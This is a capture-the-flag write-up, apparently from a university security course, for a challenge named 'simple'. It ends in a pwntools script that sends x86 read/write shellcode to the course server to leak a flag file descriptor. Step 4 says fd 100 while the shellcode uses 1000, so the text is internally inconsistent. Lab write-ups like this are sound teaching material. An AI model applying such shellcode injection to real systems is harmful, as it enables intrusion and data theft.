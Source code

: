 `6447{698fe9fd-1c5e-4992-b2c0-6df10e7e718a}`


simple
===========================

General overview of problems faced
-------------------------------------
- Had to learn to use pwntools to write assembly that can be converted to shellcode
- Had to quickly relearn how to use read and write

List of vulnerabilities
------------------------
1. Stack wasn't completely non-executable. Syscalls like read and write could still be used allowing us to read things of the stack, by executing shellcode.

Steps to exploit
------------------
1. Use checksec to see what security measures have been used. ASLR, PIE and NX (partially) has been enabled.
2. Disassemble the code and notice it only has a main.
3. The only interesting thing in the main is the flag file is opened.
4. Run the code and notice our hint is all syscalls are disabled except for read and write and flag is open at file descriptor = 100
5. Write an exploit that uses shellcode to use read syscall at fd = 1000 to a buffer on the stack and write to stdout (fd = 1) from a buffer a buffer on the stack.
6. Record the flag

Script/Command used
------------------
```
#!/usr/bin/python

from pwn import *

#p = process("./simple")
p = remote("misc.6447.sec.edu.au",8005)

#write a shellcode to read to fd 1000
#then write to fd 1 (standard output)

shellcode = asm('''
xor ebx, ebx
mov bx, 0x3e8
mov ecx, esp
push 0x2b
pop edx
push SYS_read
pop eax
int 0x80
push 1
pop ebx
mov ecx, esp
push 0x2b
pop edx
push SYS_write
pop eax
int 0x80
''')

p.sendline(shellcode)
p.interactive()

```

